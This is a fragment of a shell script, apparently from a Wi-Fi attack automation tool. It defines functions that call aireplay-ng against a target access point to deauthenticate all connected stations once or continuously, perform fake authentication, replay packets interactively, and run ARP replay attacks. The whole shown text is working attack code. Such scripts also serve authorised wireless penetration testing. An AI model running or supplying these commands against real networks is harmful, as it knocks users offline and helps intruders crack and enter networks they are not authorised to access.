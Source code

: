 }


arAttackDeAuth(){

	currentTask="arAttackDeAuth"

	retryDeauth="0"

	doSleepMessage "Preparing to De-Authenticate All Connected Stations...." "2"

	$terminal aireplay-ng --deauth 5 -a $bssid $interfaceMonitor &

	doSleepMessage "De-Authenticating All Connected Stations...." "5"

}


arAttackDeAuthConstant(){

	currentTask="arAttackDeAuthConstant"

	retryDeauth="0"

	doSleepMessage "De-Authenticating All Connected Stations...." "2"

	$terminal aireplay-ng --deauth 0 -a $bssid $interfaceMonitor &

}


arAttackFakeAuth(){

	currentTask="arAttackFakeAuth"

	#$terminal aireplay-ng -1 1 -a $bssid -h $macAddressMonitor -e "$essid" $interfaceMonitor &
	$terminal aireplay-ng -1 0 -a $bssid -h $macAddressMonitor -e "$essid" $interfaceMonitor &
	
	# Alt
	#$terminal aireplay-ng -1 6000 -o 1 -q 10 -a $bssid -h $macAddressMonitor -e "$essid" $interfaceMonitor &

}


arAttackInteractive(){

	currentTask="arAttackInteractive"

	$terminal aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -a $bssid -h $macAddressMonitor $interfaceMonitor &

}


arAttackArpReplay(){

	currentTask="arAttackArpReplay"

	$terminal aireplay-ng -3 -e $essid -b $bssid -h $macAddressMonitor $interfaceMonitor &

}

